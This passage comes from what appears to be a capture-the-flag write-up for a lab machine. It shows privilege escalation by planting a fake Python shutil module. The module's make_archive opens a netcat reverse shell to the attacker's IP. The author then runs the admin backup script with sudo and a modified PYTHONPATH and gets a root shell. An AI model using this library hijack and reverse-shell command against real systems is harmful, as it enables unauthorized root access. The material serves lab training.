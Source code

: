 from shutil import make_archive
src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'
make_archive(dst, 'gztar', src)
```
It import ```make_archive``` function from python module ```shutil```.

So I created a fake ```shutil.py``` inside ```hsn``` folder and write these codes and save it:
```
import os

def make_archive(x, y, z):
	os.system("nc 10.10.14.204 4444 -e '/bin/bash'")
```

When it is executed, it will execute ```/bin/bash``` on my IP and port 4444. So I need to listen this port with netcat.
```
┌─[✗]─[root@hsn]─[/home/hsn]
└──╼ #nc -nlvp 4444
listening on [any] 4444 ...
```

We create our duplicate shutil library. Let's run the code with this python env path and see if we can get access or not !!
So, how to execute ```admin_tasks.sh``` script after our changes? Here it is:
```
waldo@admirer:~/hsn$ sudo PYTHONPATH=~/hsn /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
```
And select 6 ```Backup web data``` in order to execute ```backup.py```.

Look at netcat!

```
┌─[✗]─[root@hsn]─[/home/hsn]
└──╼ #nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.204] from (UNKNOWN) [10.10.10.187] 42248
whoami
root
cd /
ls
bin
boot
dev
etc
home
initrd.img
initrd.img.old